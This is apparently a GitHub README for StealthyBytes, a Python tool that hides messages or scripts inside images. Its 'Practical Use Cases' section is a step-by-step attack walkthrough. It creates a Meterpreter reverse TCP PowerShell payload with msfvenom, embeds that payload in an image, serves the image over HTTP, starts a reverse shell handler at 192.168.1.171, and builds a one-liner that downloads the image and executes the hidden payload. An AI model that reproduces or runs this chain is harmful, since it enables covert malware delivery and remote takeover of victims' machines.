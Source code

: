 - **Embed a Secret**: `python3 StealthyBytes.py --mode embed --string "Your secret message" --image cool_pic.jpg --output secret_pic.png`
- **Reveal the Hidden**: `python3 StealthyBytes.py --mode extract --image secret_pic.png --show`

## Installation and Requirements

Looking ahead, the future development roadmap for StealthyBytes is focused on enhancing its universality and ease of use across various systems. A key objective is eliminating the dependency on external libraries, transitioning towards using only built-in libraries available in standard Python distributions. This strategic shift aims to ensure that StealthyBytes can run seamlessly on any system without the prerequisite of pre-installing additional libraries. 

- Python 3.x
- Pillow (Python Imaging Library Fork)

Downloading and install the necessary libraries using:

```bash
git clone https://github.com/drinorselmanaj/StealthyBytes
cd StealthyBytes
pythhon3 -m pip install -r requirements.txt
```

## Practical Use Cases

In this example, we demonstrate how StealthyBytes can be used in a real-world scenario for embedding and executing a script from a remote image using a reverse TCP payload.

Create a simple payload using `msfvenom` (It can be any Python or Powershell payload):

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.171 lport=1405 -f psh -o msf.ps1
```

Embed `msf.ps1` into an image:

```bash
python3 StealthyBytes.py --mode embed --script msf.ps1 --image unarmed.jpg --output armed.png --powershell --base64
```

Initiate an `HTTP Server` to host the image (or it can be any online service that provides direct access to image resources):

```bash
python3 -m http.server 80
```

Set-up the handler for the reverse TCP connection:

```bash
handler -p windows/meterpreter/reverse_tcp -P 1405 -H 192.168.1.171
[*] Started reverse TCP handler on 192.168.1.171:1405 
```

Generate a one-liner command to extract and execute the script from the remotely hosted image:

```bash
python3 StealthyBytes.py --mode one_liner --url http://192.168.1.171/angle.png --powershell
```
